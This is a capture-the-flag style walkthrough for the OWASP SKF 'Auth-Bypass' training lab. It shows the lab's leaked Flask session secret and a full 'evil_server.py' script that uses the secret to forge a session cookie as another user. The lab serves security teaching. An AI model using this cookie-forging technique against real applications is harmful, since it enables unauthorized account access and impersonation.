 # Auth-Bypass

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:auth-bypass
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:auth-bypass
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Let's login with admin/admin:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/1.png)

Once we login we see an API key.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/2.png)

Let's have a look at the source code:

```python

app.config.update(dict(
    SECRET_KEY= "e5ac-4ebf-03e5-9e29-a3f562e10b22",
    SESSION_COOKIE_HTTPONLY = True
))

@app.route("/login", methods=['GET', 'POST'])
def login():
    sqli  = Classes()
    if request.method == "POST":
        values = sqli.getUser(request.form['username'])
        if values:
            if values[0][2] == request.form['password']:
                session['userId'] = values[0][0]
                session['secret'] = app.config['SECRET_KEY']
                session['loggedin'] = True
                pref = sqli.getApi(values[0][0])
                api = pref[0][0]
                return render_template("loggedin.html", api = api)
        return render_template("index.html")
    else:
        pref = sqli.getApi(session['userId'])
        api = pref[0][0]
        return render_template("loggedin.html", api = api)
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response, session

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config.update(dict(
    SECRET_KEY= "e5ac-4ebf-03e5-9e29-a3f562e10b22",
    SESSION_COOKIE_HTTPONLY = False
))

app.config['DEBUG'] = True

@app.route("/")
def start():
    session['userId'] = 2 # CHANGING USER ID
    session['secret'] = app.config['SECRET_KEY']
    session['loggedin'] = True
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Save the following snippet code into /templates/evil.html

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/3.png)

Now we can replace our original cookie with the tampered cookie.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/4.png)

Send the request again:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/5.png)

## Additional sources

{% embed url="https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema" %}

